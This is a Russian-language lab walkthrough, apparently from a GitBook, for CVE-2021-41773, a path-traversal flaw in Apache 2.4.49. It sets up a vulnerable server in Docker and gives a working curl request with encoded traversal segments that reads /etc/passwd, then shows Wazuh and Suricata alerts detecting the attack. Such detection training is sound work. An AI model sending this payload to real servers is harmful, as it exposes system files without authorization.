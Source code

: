# CVE-2021-41773

Ошибка была обнаружена в изменении нормализации путей в Apache HTTP Server 2.4.49. Если файлы за пределами этих каталогов не защищены обычной конфигурацией по умолчанию "require all denied", запросы на их чтение могут быть успешными.&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу http://ваш-ip:8080 будет доступна дефолтная страница с фразой "It works!"

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Для воспроизведения уязвимости выполните команду:

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
